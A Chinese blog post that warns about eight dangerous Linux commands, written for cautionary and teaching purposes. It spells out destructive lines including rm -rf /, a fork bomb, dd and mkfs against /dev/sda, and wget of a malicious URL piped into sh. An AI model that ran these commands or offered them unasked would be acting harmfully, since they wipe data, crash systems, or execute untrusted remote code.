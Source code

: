 ```yaml
---
layout: post
title: Linux上最危险的8个命令
---
```


Linux命令是很强大、高效的。但是有时侯执行一些命令要非常小心，尤其是，当你不知道自己在干什么的情况下。

这篇文件总结了8个可能让人悲剧的10个命令。这些命令在执行之前，一定要再三确认，一不小心就会让你追悔莫及。

### #1) rm -rf

`rm -rf`是删除目录最快的方法，如果使用桌面环境（右键->删除）删除一个零碎目录需要很长时间。但是一个小小的打字错误，有可能对你的系统造成不可恢复的破坏。例如下面这条命令：

{% highlight shell %}
# rm -rf /
{% endhighlight %}

上面这条命令需要系统管理员权限，这也是不建议使用root用户登录系统的原因之一。

rm常用选项：

* **rm**：删除文件
* **rm -r**：递归的删除目录，包括空目录
* **rm -f**：直接删除文件，不询问
* **rm -rf /**：直接根(root)目录，不询问
* **rm -rf \***：删除当前目录的所有东西，不询问
* **rm -rf**：删除当前目录和子目录，不询问

在执行`rm -rf`一定要小心。为了防止`rm`命令意外删除文件或目录，可以为`rm`创建一个别名`rm -i`，每次都需要确认删除。

### #2) :(){:|:&};:

上面这个命令就是所谓的fork炸弹。执行上面代码会耗尽系统资源而崩溃。更多关于fork炸弹的信息看这里：[Linux：怎么防止fork炸弹攻击](http://blog.topspeedsnail.com/archives/2757)。

### #3) cmd > /dev/sda

cmd代表一个命令，`cmd > /dev/sda`把cmd命令的输出写到了`/dev/sda`块设备上，会导致`/dev/sda`块设备数据的全部丢失。

### #4) mv 目录 /dev/null

上面命令会把目录移动到`/dev/null`。在Linux中， /dev/null是一个特殊的设备文件，有人把它叫做黑洞。

{% highlight shell %}
# mv /home/* /dev/null
{% endhighlight %}

上面命令相当于：

{% highlight shell %}
# rm -rf /home/*
{% endhighlight %}

### #5) wget http://怀有恶意脚本的url -O- | sh

上面这条命令在安装软件或系统环境时总用到，它从url下载脚本，下载完成之后自动执行脚本。不要对不信任的url执行上面这个命令。

### #6) mkfs.ext3 /dev/sda

上面命令是格式化命令，执行完之后硬盘数据全部清空。

### #7) > file

`> file`命令会把文件中的数据全部清空。

### #8) dd if=/dev/random of=/dev/sda

上面命令向sda设备中写入随机数据，这是不可恢复的。

如果一个命令你不知道是干嘛的，不要盲目执行，可以先使用man查询一下。如果你有因为执行错误命令而导致系统崩溃的经历，欢迎留言。